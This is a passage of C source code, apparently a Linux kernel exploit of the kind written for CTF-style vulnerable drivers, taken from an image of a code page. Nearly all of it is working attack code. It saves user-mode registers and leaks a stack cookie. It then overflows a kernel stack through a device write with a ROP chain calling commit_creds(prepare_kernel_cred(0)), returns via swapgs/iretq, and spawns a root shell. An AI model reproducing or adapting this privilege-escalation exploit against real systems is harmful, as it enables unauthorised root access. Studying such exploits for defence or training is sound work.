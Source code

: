         "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void payload(){
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] we are root (uid = %d)\n", uid);
    } else {
        printf("[!] we are not root (uid: %d)\n", uid);
        exit(-1);
    }
    execl("/bin/sh", "sh", NULL);
    exit(0);
}

uint64_t user_rip = (uint64_t) payload;     // the last part of our ROP chain

uint64_t prepare_kernel_cred = 0xffffffff814c67f0;   // the offset from /proc/kallsyms
uint64_t commit_creds = 0xffffffff814c6410;

uint64_t pop_rdi_ret = 0xffffffff8100767c;     // pop rdi; ret
uint64_t mov_rdi_rax_movrsi_poprbp = 0xffffffff816bf203; // mov rdi, rax; mov [rsi+0x140], rdi; pop rbp; ret;
uint64_t swapgs_poprbp_ret = 0xffffffff8120109c; // swapgs; pop rbp; ret;
uint64_t iretq = 0xffffffff8100c0d9; //0xffffffff8225e3af; // iretq;

void overflow_stack(){
    uint8_t sz = 40;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rdi_ret;
    payload[cookie_off++] = (uint64_t) 0;
    payload[cookie_off++] = (uint64_t) prepare_kernel_cred;  // prepare_kernel_cred(0)

    payload[cookie_off++] = (uint64_t) mov_rdi_rax_movrsi_poprbp;  // need to move result to rdi
    payload[cookie_off++] = (uint64_t) 0; // popped to ebp
    payload[cookie_off++] = (uint64_t) commit_creds; // commit_creds(prepare_kernel_cred(0))

    payload[cookie_off++] = (uint64_t) swapgs_poprbp_ret; // swapgs
    payload[cookie_off++] = (uint64_t) 0; // this is popped to rbp

    payload[cookie_off++] = (uint64_t) iretq;  // restore registers from user mode
    payload[cookie_off++] = (uint64_t) user_rip;
    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

int main(int argc, char **argv){
    open_dev();
    save_state();
    leak_cookie();
    overflow_stack();
    return 0;
}